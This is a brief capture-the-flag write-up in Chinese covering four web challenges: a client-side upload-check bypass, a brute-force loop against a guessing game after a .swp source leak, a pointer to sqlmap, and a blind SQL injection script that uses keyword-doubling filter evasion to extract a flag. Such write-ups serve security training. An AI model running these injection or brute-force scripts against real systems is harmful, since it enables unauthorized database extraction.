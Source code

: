 ***

#### SimpleUpload签到

console里`function checkFile(){;}`覆盖掉判断函数后上传

***

#### 小型线上赌场

.index.swp文件泄露

```python
import asyncio
import aiohttp

url = "http://202.119.201.199:32787/index.php?invest=1&guess=2"

async def guess():
    async with aiohttp.ClientSession() as session:
        while 1:
            async with session.get(url) as resp:
                data = await resp.text()
                if "flag{" in data:
                    print(data)
                    exit()


loop = asyncio.get_event_loop()
tasks = [guess() for i in range(8)]
loop.run_until_complete(asyncio.gather(*tasks))

```

***

#### SimpleSQLi

Sqlmap:

sqlmap -u xxx

***

#### SimpleSqli2

```python
import requests

#payload = "selSELECTect/**/group_concat(column_name)/**/from/**/infoorrmation_schema.columns/**/where/**/table_name='flagishere'"
payload = "selSELECTect/**/binary/**/group_concat(FLAG)/**/from/**/flagishere"


flag = ''

for i in range(4, 50):
    for w in '_QAZXSWEDCVFRTGBNHYUJMKIOLP{}qazxscwderfvbgtyhnmjuiklop1234567890':
        url = f"http://bxs.cumt.edu.cn:30010/test/index.php?id=if(mid(({payload}),{i},1)='{w}',1,0)"
        # url = f"http://127.0.0.1/sql.php?id=if(mid(({payload}),{i},1)='{chr(w)}',1,0)"
        # print(url)
        r = requests.get(url)
        if 'NoNoNo' not in r.text:
            flag += w
            break
    print(flag)
```